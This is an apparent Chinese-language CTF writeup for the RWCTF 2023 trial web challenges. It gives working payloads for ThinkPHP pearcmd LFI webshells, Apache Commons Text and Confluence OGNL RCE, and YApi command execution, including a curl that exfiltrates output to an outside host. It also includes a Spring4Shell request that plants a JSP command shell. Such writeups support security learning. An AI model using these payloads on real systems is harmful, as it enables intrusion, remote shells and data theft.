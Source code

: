 ```yaml
---
title: "RWCTF 2023 体验赛 Web Writeup"
date: 2023-01-08T11:24:57+08:00
lastmod: 2023-01-08T11:24:57+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Real World CTF 正赛打不动了过来打体验赛 (

<!--more-->

## Be-a-Language-Expert

thinkphp 多语言 rce (lfi + pearcmd)

[https://tttang.com/archive/1865/](https://tttang.com/archive/1865/)

[https://www.freebuf.com/vuls/352360.html](https://www.freebuf.com/vuls/352360.html)

/var/www/html 目录无权限, 所以就写在 /tmp 目录下, 然后文件包含来 getshell

```
/?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST[1]);?>+/tmp/xzxz114.php
```

![image-20230107192924843](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071929919.png)

```
http://47.98.124.175:8080/?lang=../../../../../../../../tmp/xzxz114
```

![image-20230107193059691](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071930745.png)

## Evil MySQL Server

利用恶意 mysql 服务端来读取文件

[https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)

![image-20230107193328355](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071933408.png)

![image-20230107193316145](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071933201.png)

## ApacheCommandText

Apache Commons Text RCE (CVE-2022-42889)

[https://forum.butian.net/share/1973](https://forum.butian.net/share/1973)

[https://blog.csdn.net/qq_34101364/article/details/127338170](https://blog.csdn.net/qq_34101364/article/details/127338170)

`hack! [script, file, url, dns] is not allowed!`

利用 base64Decoder 绕过限制

```java
String poc = "${script:js:new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder(\"/readflag\").start().getInputStream(), \"utf-8\")).readLine()}";
String exp = "${base64Decoder:" + Base64.getEncoder().encodeToString(poc.getBytes()) + "}";
```

```
${base64Decoder:JHtzY3JpcHQ6anM6bmV3IGphdmEuaW8uQnVmZmVyZWRSZWFkZXIobmV3IGphdmEuaW8uSW5wdXRTdHJlYW1SZWFkZXIobmV3IGphdmEubGFuZy5Qcm9jZXNzQnVpbGRlcigiL3JlYWRmbGFnIikuc3RhcnQoKS5nZXRJbnB1dFN0cmVhbSgpLCAidXRmLTgiKSkucmVhZExpbmUoKX0=}
```

![image-20230107193755286](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071937380.png)

## Yummy Api

哈哈哈首推一波学长写的利用工具

[https://github.com/Anthem-whisper/YApi-Exploit](https://github.com/Anthem-whisper/YApi-Exploit)

YApi 从 mongodb 注入获取 token 到设置 `run_auto_test` 来执行命令

```bash
python3 exp.py -target http://47.98.161.119:8080/ -action get_token_by_inject

python3 exp.py -target http://47.98.161.119:8080/ -action get_id_uid_by_token -token 8fa743801266b2391d16

python3 exp.py -target http://47.98.161.119:8080/ -action encrypt_token -uid 11 -id 66 -token 8fa743801266b2391d16

python3 exp.py -target http://47.98.161.119:8080/ -action execute_command -entoken 043454c1c1399255295ebf2fff47e5cc494108968ad05f848627c334d91ad2bc -id 66 -cmd 'curl x.x.x.x:yyyy -X POST -d "`/readflag`"'
```

基本流程就是这样, 写 wp 的时候题目服务器有点问题

然后执行命令可能会有延时

## Be-a-Wiki-Hacker

Confluence OGNL 表达式注入 (CVE-2022-26134)

[https://github.com/0x14dli/cve2022-26134exp](https://github.com/0x14dli/cve2022-26134exp)

直接反弹 shell

```bash
python3 cve2022-26134exp.py -u http://47.98.212.188:8080/ -i x.x.x.x -p 65444
```

![image-20230107195841726](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071958760.png)

## Spring4Shell

Spring4Shell (CVE-2022-22965)

[https://www.anquanke.com/post/id/272149](https://www.anquanke.com/post/id/272149)

题目存在 git 泄露, 不过直接访问`/.git/` 会 404, 还得用工具跑一遍 (被这个坑了好长时间

```bash
githacker --url http://47.98.216.107:35974 --output-folder web
```

![image-20230107230047953](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301072300127.png)

其它文件内容都是默认的没有什么变化

server.xml 中的 appBase 变成了 `chaitin` 而不是之前的 `webapps`

最后发送 payload

```
POST / HTTP/1.1
Host: 47.98.216.107:35974
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=chaitin/xzxz&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image-20230107230326837](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301072303916.png)

之后注意先去访问一下 index 生成日志, 然后再访问 jsp

```
http://47.98.216.107:35974/xzxz/tomcatwar.jsp?pwd=j&cmd=find / -name flag
http://47.98.216.107:35974/xzxz/tomcatwar.jsp?pwd=j&cmd=cat /root/flag
```

![image-20230107230256902](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301072302948.png)

